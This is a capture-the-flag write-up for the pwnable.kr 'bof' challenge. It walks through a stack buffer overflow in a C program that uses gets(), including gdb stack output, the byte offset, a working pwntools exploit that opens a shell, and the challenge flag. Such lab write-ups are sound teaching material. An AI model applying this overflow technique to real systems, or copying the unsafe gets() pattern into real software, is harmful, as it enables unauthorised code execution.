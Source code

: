 # welcome

## Description

welcome - 1pt

> Nana told me that buffer overflow is one of the most common software vulnerability. Is that true? <br><br>
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c <br><br>
> Running at : nc pwnable.kr 9000

## Solution

### Background

#### Buffer Overflow

A buffer overflow occurs when a program attempts to write more data to a buffer than it can hold. This can cause the program to crash, or it can be used to overwrite data in the program's memory.


### Exploit

This time, we are given two files: `bof` - the binary file, and `bof.c` - the source code. Let's take a look at the source code:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

The program calls ```gets``` to read input from the user. ```gets``` is a dangerous function because it does not check the length of the input, so it can cause a buffer overflow. The program also checks if the input is equal to `0xcafebabe`, and if it is, it executes the command `/bin/sh`. This means that we need to overwrite the value of `key` with `0xcafebabe` in order to get a shell.

Using ```gdb``` to debug the program, and giving `AAAA` as input, we can see the stack:

```
(gdb) x/100x $esp

0xffffd0f0:	0xffffd10c	0x00000020	0x00000000	0xffffd2e4
0xffffd100:	0x00000000	0x00000000	0x01000000	0x41414141
0xffffd110:	0xf7fc4500	0x00000000	0xf7d904be	0xf7f9e054
0xffffd120:	0xf7fbe4a0	0xf7fd6f10	0xf7d904be	0x75f7b900
0xffffd130:	0xffffd170	0xf7fbe66c	0xffffd158	0x5655569f
0xffffd140:	0xdeadbeef	0x00000000	0xf7f9e000	0xf7e9694b
```

The adress of `key` is `0xffffd140`, and the adress of `overflowme` is `0xffffd10c`. We can see that the distance between them is `52` bytes. This means that we need to write `0x34` bytes of junk data, followed by `0xcafebabe` in order to overwrite the value of `key`.

```python
from pwn import *

con = remote('pwnable.kr', 9000)

payload = b'\x61' * 52 + p32(0xcafebabe)

con.sendline(payload)

con.interactive()
```

Running the script, we get a shell:

```
$ python3 exploit.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ cat flag
daddy, I just pwned a buFFer :)
```